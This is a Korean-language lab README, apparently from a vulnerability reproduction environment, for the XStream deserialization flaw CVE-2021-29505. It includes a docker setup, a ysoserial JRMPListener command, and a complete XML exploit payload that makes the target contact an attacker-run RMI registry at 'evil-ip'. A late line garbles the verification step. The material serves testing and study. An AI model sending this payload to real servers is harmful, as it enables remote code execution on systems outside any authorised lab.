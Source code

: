 # CVE-2021-29505

XStream은 object들을 시리얼화하거나 되돌리는 간단한 라이브러리임.

XStream은 역시리얼화 취약점을 방어하는 데 사용되는 XML 텍스트를 구문 분석할 때 차단 목록 메커니즘을 사용하지만 1.4.16 및 이전 버전에서는 차단 목록이 불완전하며 공격자가 `sun.rmi.registry.RegistryImpl_Stub` 을 사용하여 RMI 요청을 만들고 마침내 임의 실행을 할 수 있음.

## 취약한 환경

Springboot + XStream 1.4.16 서버 시작

```
docker compose up -d
```

일단 환경이 시작되면, 잘 시작되는지 테스트하기 위해 `http://your-ip:8080`로 request를 보낼 수 있음.
![](1.png)

## POC

먼저, 악한 서버 위에 악성의 RMI 레지스트리를 [ysoserial](https://github.com/frohoff/ysoserial)의 JRMPListener를 이용해서 시작해야 함.

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

이 RMI 레지스트리는 request를 받고 악성의 시리얼화된 object(`CommonsCollection6` 가젯으로 만들어진)를 리턴함.

그리고 CVE-2021-29505의 XML POC을 보내고 **evil-ip**를 악한 RMI 레지스트리의 주소로 교체함

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

악성의 RMI registry 는 RMI request를 성공적으로 받음.

![](2.png)

Enter into the XStream container, ``touch /tmp/success``를 XStream 컨테이너에 입력하면 성공적으로 실행됨.

![](3.png)

[official website][1]로부터의 POC가 틀림, 사용하면 안됨.

[1]: https://x-stream.github.io/CVE-2021-29505.html
